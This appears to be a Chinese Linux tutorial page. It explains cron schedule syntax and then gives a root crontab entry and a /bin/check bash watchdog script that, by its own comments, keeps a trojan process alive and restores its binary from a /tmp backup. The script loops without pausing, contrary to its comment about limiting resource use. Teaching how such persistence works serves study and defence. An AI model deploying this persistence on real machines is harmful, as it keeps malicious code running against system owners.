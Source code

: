 设置每小时后台执行一次

```
0  *  *  *  * ~/hello &
```

设置每小时的第六分钟后台执行一次

```
6  *  *  *  * ~/hello &
```

设置每十五分钟后台执行一次

```
*/15  *  *  *  * ~/hello &
```

设置每天八点到二十点，每十五分钟后台执行一次

```
*/15  8-20  *  *  * ~/hello &
```

设置每天的六点，八点，九点，每十五分钟后台执行一次

```
*/15  6,8,9  *  *  * ~/hello &
```

查看 root 用户计划任务

```
[root@CentOS-76 ~]# cat /var/spool/cron/root
```

```
* * * * * ~/hello &
```

加入检查程序，避免资源占用

```
[root@CentOS-76 ~]# vim /bin/check
```

```bash
#!/bin/bash
while true
do
#统计当前系统运行了几个木马进程
 a=`pgrep xuegod | wc -l`
#如查木马进程数小于 1 则运行木马程序。
 if [ $a -lt 1 ]; then
#运行之前判断木马文件是否存在，如果不存在则通过备份文件进行恢复。
 if [ ! -f "/root/hello" ]; then
 /bin/cp /tmp/hello /root/hello
 fi
#运行木马程序
 /root/hello &
 fi
done
```

